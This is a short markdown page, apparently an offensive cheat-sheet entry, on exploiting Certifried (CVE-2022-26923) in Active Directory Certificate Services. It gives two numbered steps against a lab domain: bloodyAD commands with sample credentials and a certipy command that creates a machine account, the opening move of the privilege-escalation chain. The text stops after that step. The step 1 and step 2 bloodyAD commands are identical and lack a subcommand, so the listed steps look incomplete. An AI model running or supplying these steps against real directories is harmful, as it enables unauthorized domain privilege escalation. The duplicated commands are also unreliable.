 # Certifried CVE-2022-26923

### An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.

#### 1) Find ms-DS-MachineAccountQuota

 - python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10

#### 2) Add a new computer in the Active Directory, by default MachineAccountQuota = 10

 - python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10

 - certipy account create 'lab.local/username:Password123*@dc.lab.local' -user 'cve'
